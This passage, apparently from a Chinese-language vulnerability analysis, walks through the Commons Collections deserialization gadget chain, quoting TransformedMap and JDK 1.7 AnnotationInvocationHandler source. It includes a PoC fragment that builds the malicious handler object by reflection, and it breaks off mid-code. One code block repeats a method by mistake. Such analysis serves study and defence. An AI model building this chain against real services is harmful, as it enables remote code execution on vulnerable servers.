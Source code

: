 TransformedMap类decorate()方法，return一个Map对象。   
```java
public class TransformedMap extends AbstractInputCheckedMapDecorator implements Serializable {
    ...
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
    protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }

```

### 反序列化操作触发函数 jdk1.7 AnnotationInvocationHandler
反序列化操作触发函数在jdk1.7中，这是为什么要求jdk1.7的环境原因。    
对应PoC代码：
```java
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);//通过setAccessible(true)的方式关闭安全检查
Object instance = ctor.newInstance(Retention.class, outmap);
return instance;
```

AnnotationInvocationHandler类的readObject()函数如下,其中传入的对象var5会调用setValue，该方法会触发TransformedMap对象的setValue方法，进而把链子打通，具体分析在下面调试分析中。     
jdk 1.7
```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private static final long serialVersionUID = 6182022883658399397L;
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;
    private transient volatile Method[] memberMethods = null;

    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }

    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            //对@Target这个注解的处理，getInstance会获取到@Target的基本信息
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }
        Map var3 = var2.memberTypes();
        //this.memberValues类初始化传的参数
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            //var5是TransformedMap对象继承了 AbstractInputCheckedMapDecorator
```